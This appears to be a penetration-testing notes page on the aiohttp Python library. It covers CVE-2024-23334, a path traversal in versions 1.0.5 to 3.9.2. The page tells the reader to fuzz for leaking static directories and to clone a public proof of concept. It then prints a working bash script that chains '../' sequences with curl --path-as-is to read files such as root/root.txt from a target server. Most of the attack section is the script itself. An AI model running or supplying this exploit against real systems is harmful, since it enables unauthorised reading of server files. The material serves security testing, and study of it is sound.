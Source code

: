 ```yaml
---
description: >-
  Python library that supports both client and server side of HTTP protocol and
  Web-Sockets (asyncio)
icon: globe-pointer
---
```


# AIOHTTP

## <mark style="color:purple;">`Documentation`</mark>

{% embed url="https://docs.aiohttp.org/en/stable/index.html" %}

***

## <mark style="color:purple;">**`Vulnerabilities`**</mark>

{% embed url="https://security.snyk.io/package/pip/aiohttp" %}

<details>

<summary><mark style="color:red;"><strong><code>CVE-2024-23334 - Path Traversal</code></strong></mark></summary>

{% hint style="info" %}
## <mark style="color:purple;">Versions :</mark> <mark style="color:red;">**`1.0.5 - 3.9.2`**</mark>
{% endhint %}

* <mark style="color:purple;">This vulnerability has been present since the introduction of the</mark> <mark style="color:orange;">**`follow_symlinks`**</mark> <mark style="color:purple;">parameter.</mark>
* [<kbd><mark style="color:orange;">**More information**<mark style="color:orange;"></kbd>](https://security.snyk.io/vuln/SNYK-PYTHON-AIOHTTP-6209406)
* <mark style="color:purple;">Look at the requests or fuzz the site to look for directories leaking static resources.</mark>

{% hint style="info" %}
<mark style="color:red;">**`PoC`**</mark>

{% code overflow="wrap" %}
```bash
git clone https://github.com/z3rObyte/CVE-2024-23334-PoC
```
{% endcode %}

* <mark style="color:purple;">Update the</mark> <mark style="color:orange;">**`URL`**</mark> <mark style="color:purple;">,</mark> <mark style="color:orange;">**`payload`**</mark> <mark style="color:purple;">, and</mark> <mark style="color:orange;">**`file`**</mark> <mark style="color:purple;">variables in the</mark> <mark style="color:orange;">**`PoC`**</mark> <mark style="color:purple;">to match your target:</mark>

{% code title="Example" overflow="wrap" %}
```bash
#!/bin/bash

url="http://localhost:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
   payload+="$string"
   echo "[+] Testing with $payload$file"
   status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
   echo -e "\tStatus code --> $status_code"

   if [[ $status_code -eq 200 ]]; then
       curl -s --path-as-is "$url$payload$file"
       break
   fi
done
```
{% endcode %}
{% endhint %}

</details>


